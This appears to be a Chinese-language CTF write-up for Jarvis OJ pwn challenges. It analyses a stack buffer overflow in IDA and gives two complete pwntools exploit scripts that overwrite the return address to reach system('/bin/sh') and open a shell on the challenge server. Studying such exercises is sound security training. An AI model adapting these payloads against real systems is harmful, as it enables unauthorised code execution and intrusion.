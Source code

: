 扔进IDA看strings, 有bin/sh, 进入按X，看函数调用地址。

左侧函数窗口，看main函数

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      write(1, "Hello, World\n", 0xDuLL);
      return vulnerable_function();
    }

看 vulnerable_function

    ssize_t vulnerable_function()
    {
      char buf; // [rsp+0h] [rbp-80h] # 读buf 占 0x80，双击进入，
      return read(0, &buf, 0x200uLL); # 就读入 0x200， 即16*16*2 =512个bytes
    }

    # buf 
    -0000000000000002                 db ? ; undefined
    -0000000000000001                 db ? ; undefined
    +0000000000000000  s              db 8 dup(?) 
    +0000000000000008  r              db 8 dup(?) # 存放返回地址， 多空余0x8字节，加上前面的0x80字节，就是0x88个字节

read可以读入0x200，即512个字符，而从buf到vulnerable_function的返回地址只有0x80+0x8,即 136个字节 < 512，因此可以覆盖 vulnerable_function 的返回地址为 call_system 函数地址，即可getshell

```python
# -*- coding:utf-8 -*-
from pwn import *

sh = remote("pwn2.jarvisoj.com",9881) 
junk = 'a'*0x80 # 随意填充0x80个，


fakebp = 'a'*8 # 看char buf，双击进buf，最下面还有8个bytes
syscall = 0x0000000000400596 # ida 查看 exports 填入地址
payload = junk + fakebp + p64(syscall) # 正常是vulnerable_function()返回地址，我们这里覆盖为syscall地址，得到shell
sh.send(payload)
sh.interactive()

```
#### 读取 symbol system的地址
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

io = remote("pwn2.jarvisoj.com",9878)
elf = ELF("./level2")

sys_addr = elf.symbols["system"]                     # IDA对应的函数为 _system 0x08048320
bin_addr = elf.search("/bin/sh".encode()).__next__() # IDA可见 0x804a024

payload = 'a'*(0x88 + 0x4)                 #辣鸡填充值
payload += p32(sys_addr).decode('latin')   #覆盖返回地址到system函数
payload += p32(0xdeadbeef).decode('latin') #随意填写system函数调用结束的返回地址 0x1也行
payload += p32(bin_addr).decode('latin')   #system函数的参数，指向“/bin/sh”，实现调用

io.recvline()
io.sendline(payload)
io.interactive()
io.close()
```